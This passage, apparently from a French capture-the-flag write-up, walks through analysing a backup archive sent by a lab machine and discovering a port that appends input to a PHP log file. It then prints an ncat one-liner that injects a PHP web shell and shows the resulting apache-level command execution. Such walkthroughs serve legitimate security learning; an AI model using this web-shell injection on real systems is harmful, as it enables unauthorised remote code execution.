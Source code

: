 La machine semble envoyer en brut une archive au format tar.gz (on peut l'obtenir en redirigeant avec un ncat ou en extrayant les données depuis Wireshark).  

Une fois décompressé on obtient un fichier *media/backup/pxelinux.cfg.tar.gz*  

Voici le contenu du dossier *pxelinux.cfg*:  

```plain
default:    ASCII text
dnsmasq:    ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, stripped
pxelinux.0: pxelinux loader
start:      Bourne-Again shell script, ASCII text executable
web:        directory
```

et du dossier web :  

```plain
conf:   directory
monkey: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.16, stripped
start:  Bourne-Again shell script, ASCII text executable
```

*monkey* est exécutable compressé avec *UPX*. Une fois décompressé on trouve des chaînes de caractères faisant référence au serveur web [Monkey](http://www.monkey-project.com/) en version 0.9.2.  

Les fichiers de l'archive n'ont aucune réelle valeur pour nous.

On remarque que le processus d'envoi de l'archive se répète toutes les 10 minutes.  

En refaisant un scan TCP à un moment un nouveau port est apparu sur la machine : 10001.  

Je tente de m'y connecter avec Ncat mais le port est fermé. Le port s'ouvre t-il uniquement à la fin de l'upload du fichier ?  

Je relance un listener Ncat et lors de la réception je me connecte sur le 10001 : ouvert !  

Le port semble lire le flux ligne par ligne (ça utilise peut être netcat), je saisis ainsi deux messages avant de *Ctrl+C* et je vois mes messages se trouver à la fin du fichier *backup\_log.php* :-)  

Pour injecter une backdoor dans le fichier PHP la commande suivante fonctionne :  

```bash
ncat -l -p 10000 -v; echo '<?php system($_GET["cmd"]); ?>' | ncat 192.168.2.120 10001 -v
```

On a bien évidemment les droits d'Apache :  

```plain
uid=80(apache) gid=80(apache) groups=80(apache)
```

sur un système Linux qui date un peu :p   

```plain
Linux slax 2.6.27.27 #1 SMP Wed Jul 22 07:27:34 AKDT 2009 i686 Intel(R) Core(TM) i5-7200U CPU @ 2.50GHz GenuineIntel GNU/Linux
```

Il y a trois users sur le système (hors root et autres daemons) :  
